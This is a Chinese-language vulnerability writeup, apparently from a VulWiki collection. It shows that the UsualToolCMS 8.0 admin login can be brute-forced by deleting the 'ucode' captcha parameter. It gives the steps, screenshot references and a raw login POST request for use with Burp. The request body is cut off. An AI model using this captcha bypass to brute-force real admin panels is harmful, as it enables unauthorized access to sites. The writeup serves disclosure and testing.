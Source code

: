 UsualToolcms 8.0 绕过后台验证码爆破
===================================

一、漏洞简介
------------

可通过删除验证码参数，进行暴力破解

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

漏洞点:<http://0-sec.org/cmsadmin/>

后台登陆时默认需要输入验证码，但是当我把验证码的参数ucode删除时，登陆依然成功

### 1.默认情况下登陆数据包

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0绕过后台验证码爆破/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0绕过后台验证码爆破/media/rId27.png)

删除ucode参数和cookie后登陆，直接登陆成功

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0绕过后台验证码爆破/media/rId28.png)

通过burp爆破后台密码

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0绕过后台验证码爆破/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0绕过后台验证码爆破/media/rId30.png)

    POST /UsualToolCMS/cmsadmin/a_login.php?do=login HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_login.php
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 23

    uuser=admin&upass=admi
